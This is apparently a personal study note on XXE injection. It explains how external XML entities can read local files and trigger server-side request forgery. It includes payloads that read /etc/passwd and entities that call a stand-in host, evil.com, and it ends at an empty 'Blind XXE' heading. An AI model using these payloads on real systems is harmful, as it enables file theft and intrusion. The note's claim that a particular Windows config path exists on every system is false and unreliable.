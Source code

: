 ```yaml
---
title: XXE Injection
date: 2021-11-16T21:07:41+01:00
tags: ['cs/security', 'cs/web']
---
```

- [ ] Split this into multiple notes
# XXE Injection

The XML format allows users to specify entities which can be used inside the XML document using the formant `&entityname;`. These entities can be fetched over the network or can be read from a file using payloads such as:

``` xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://evil.com"> ]>
```

This opens up the door to two different vulnerabilities: Retrieving Local Files and Server Side Request Forgery

## Retrieving Files

Even though XXE can be used to read files, it often can\'t be used to list the contents of a directory. However, we can test whether an XXE vulnerability exists, we ca try and read a file that exists on every system and that can be read by every user. In linux, that file is `/etc/passwd` and in windows, that is `/c:/server_files/application.conf`. An example test payload for linux would be:

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY passwd SYSTEM "file:///etc/passwd"> ]>
<yeet>&passwd;</yeet>
```

## SSRF

### Regular XXE

This bug can be tested by sending an XML document with an external entity that points to a known resource on the network. If a DNS or HTTP request is sent to that server after sending the XML request, an XXE vulnerability exists. However, this method doesn\'t always work since some systems block external entities on a network. Here is an example payload:

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY network SYSTEM "http://evil.com"> ]>
<yeet>&network;</yeet>
```

### Blind XXE

